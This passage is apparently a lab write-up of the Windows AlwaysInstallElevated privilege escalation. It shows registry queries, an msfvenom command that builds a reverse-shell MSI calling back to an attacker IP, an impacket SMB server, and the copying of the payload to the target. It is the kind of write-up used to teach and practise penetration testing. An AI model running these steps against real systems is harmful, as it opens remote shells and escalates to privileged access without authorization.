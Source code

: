 ## AlwaysInstalledElevated

Query the registry for AlwaysInstallElevated keys:

```bash
C:\Users\user>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\Users\user>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Note that both keys are set to 1 (0x1).

On Kali, generate a reverse shell Windows Installer (reverse.msi) using `msfvenom`. 
Update the LHOST IP address accordingly:

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.100.14 LPORT=5555 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

Spawn an SMB server on our attacker machine

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
[sudo] password for joshua:
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Copy our file to target:

```
C:\Users\user>copy \\10.8.100.14\kali\reverse.msi .
        1 file(s) copied.

C:\Users\user>
```
